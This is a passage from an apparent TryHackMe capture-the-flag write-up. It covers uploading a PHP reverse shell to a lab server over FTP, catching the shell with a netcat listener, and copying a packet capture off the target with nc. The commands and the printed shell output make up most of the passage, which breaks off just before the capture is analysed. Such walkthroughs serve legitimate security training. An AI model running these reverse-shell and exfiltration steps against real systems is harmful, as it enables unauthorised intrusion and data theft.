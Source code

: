 >Before uploading it, we need to change some of its settings first:
{: .prompt-warning}

Open the file and search for:

```shell
$ip = {Set the IP you will get the reverse shell to. In this case, THM's VPN}
$port {the port you will later conect the netcat to}

I will use port 1234
```

```ruby
ftp> put php-reverse-shell.php
local: web-script.php remote: web-script.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5522 bytes sent in 0.00 secs (89.2574 MB/s)
ftp> 
```
Now, lets set netcat to listen on the port we previosuly set (1234):

```shell
sudo nc -lvn 1234
listening on [any] 1234 ....
```
Its time to run the script:

```shell
http://10.10.249.130/files/ftp/php-reserse-shell.php
```
If you done it correctly, now you should have the reverse shell setted:

```ruby
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:20:19 up  1:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
>If we run a ls -la we will see a .txt file, which will give us the answer to the first question of the room
{: .prompt-tip}

Looking through, we found a user called "lennie" in the /home directory, which can be used to stablish a ssh connection.
Unfortunately, we dont have the password. So lets keep looking:

If we check the root directory again, we can see that as www-data user we have access to a file called "incidents", which is a wireshark file. Lets download get it into our local machine with the following command:

```shell
nc -lvpn 1234 > suspicious.pcapng {In our local machine}
nc {Our VPN IP} 1234 suspicious.pcapng

(Note we are using port 1234, which is the one we setted up in the php file)
```
Now that we got it inside our local machine, lets read it with the following command:
